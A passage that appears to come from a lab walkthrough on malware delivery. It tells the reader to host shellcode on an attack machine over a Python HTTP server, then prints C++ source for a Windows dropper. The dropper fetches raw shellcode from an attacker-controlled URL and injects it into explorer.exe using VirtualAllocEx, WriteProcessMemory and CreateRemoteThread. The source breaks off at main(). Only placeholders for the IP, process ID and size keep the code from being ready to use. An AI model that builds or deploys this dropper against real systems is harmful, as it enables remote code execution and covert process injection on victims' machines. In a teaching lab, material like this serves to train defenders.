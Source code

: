 - The shellcode should then be hosted on the AttackBox via any `HTTP Server`.
- Python3's `http.server` module is highly portable and flexible and will serve as a good base for this task.
- In the real-world, you may host your shellcode on your C2 server. There would be NO C2 server in this lab.


- The code attached to this task has been tested and compiled using **MSVS2019**
- Contents of the `Dropper.cpp`:

```cpp
#include <iostream>
#include <Windows.h>
#include <tlhelp32.h>
#include <locale>
#include <string>
#include <urlmon.h>
#include <cstdio>
#pragma comment(lib, "urlmon.lib")

using namespace std;

int downloadAndExecute()
{
    HANDLE hProcess;

    //Update the dwSize variable with your shellcode size. This should be approximately 510 bytes
    SIZE_T dwSize = "<YOURSHELLCODESIZE>";
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr;
    SIZE_T bytesOut;

    //Update the OpenProcess Windows API with your Explorer.exe Process ID. This can be found in Task Manager
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, "<explorer.exe-pid>");

    //Update the c2URL with your IP Address and the specific URI where your raw shellcode is stored.
    const char* c2URL = "<http://yourip/index.raw>";
    IStream* stream;

    //Update the buff[] variable to include your shellcode size
    char buff["<YOURSHELLCODESIZE>"];
    unsigned long bytesRead;
    string s;
    URLOpenBlockingStreamA(0, c2URL, &stream, 0, 0);
    while (true) {
        //Update the Read file descriptor to include your shellcode size
        stream->Read(buff, "<YOURSHELLCODESIZE>", &bytesRead);
        if (0U == bytesRead) {
            break;
        }
        s.append(buff, bytesRead);
    }
    memAddr = VirtualAllocEx(hProcess, NULL, dwSize, flAllocationType, flProtect);

    WriteProcessMemory(hProcess, memAddr, buff, dwSize, &bytesOut);

    CreateRemoteThread(hProcess, NULL, dwSize, (LPTHREAD_START_ROUTINE)memAddr, 0, 0, 0);
    stream->Release();
    return 0;
}

int main() {
```